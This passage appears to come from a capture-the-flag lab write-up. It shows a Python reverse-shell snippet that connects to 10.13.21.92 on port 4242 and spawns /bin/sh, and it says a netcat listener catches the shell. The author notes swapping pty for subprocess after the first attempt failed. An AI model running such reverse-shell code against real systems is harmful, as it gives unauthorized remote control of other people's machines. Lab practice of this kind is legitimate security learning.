 ```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.21.92",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```  
Actually, the code above didn't work when I tried it. I cheated a bit and referring 
to one of the Writeups attached to the room discovered that substituting the `subprocess` 
module for `pty` in the code I tried to use was successful. `subprocess.call([parameters])` 
replaced `pty.spawn(parameter)`.  
At this point I need to open up another terminal and start a NetCat listener to 
catch the shell I'm sending back to the attacker box.  

![netcat_listner](assets/tmux_listener_1.png)  
